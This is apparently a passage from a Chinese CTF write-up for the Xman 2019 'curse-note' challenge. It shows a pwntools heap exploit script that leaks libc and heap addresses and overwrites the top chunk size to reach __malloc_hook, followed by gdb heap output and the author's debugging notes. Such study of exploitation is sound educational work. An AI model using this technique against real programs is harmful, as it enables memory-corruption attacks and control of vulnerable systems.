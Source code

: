 ```python
add(0,0xe8,"A")
add(1,0x68,"B")
add(2,0x68,"B")
free(0)
add(0,0xe8,"A")
show(0)
base=u64(p.read(8))-(0x7ffff7dd1b41-0x7ffff7a0d000)
free(0)
free(1)
free(2)
add(1,0x68,"A")
show(1)
heap=u64(p.read(8))-(0x41)

log.warning(hex(base))
log.warning(hex(heap))
add(0,0x68,p64(0xffffffffffffffff)*2)

free(1)

AIM=0x7ffff7dd1b70-0x7ffff7a0d000+base+0x9
add(2,AIM,"A")
p.readuntil(":")
AIM=0x7ffff7dd1b10-0x555555757100-0x30
add(1,AIM,"YY")
gdb.attach(p,'b *0x000555555554D45')
#free(0)
#add(0,0x01,"YY")
p.interactive()
```
此时heap内存的状况:
```s
n132>>> p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
n132>>> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x7ffff7dd1af0 (size : 0xffffd5555d985608) (top is broken ?) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x0f0)  smallbin[13]: 0x555555757000
```
可以看出`topchunk`指针已经指到了`__malloc_hook`上方 但是昨天我百思不得解的是之后我`malloc`的chunk都是在下面这个区域取得的.
```python
0x00007ffff0000000 0x00007ffff0021000 rw-p	mapped
```
调试发现这个区域是之前在[Null][1]中学习的非主分配区..


[1]: https://n132.github.io/2019/05/28/2019-05-28-Null/#ARENA-c
[2]: https://github.com/n132/Watermalon/tree/master/Xman-2019/curse-note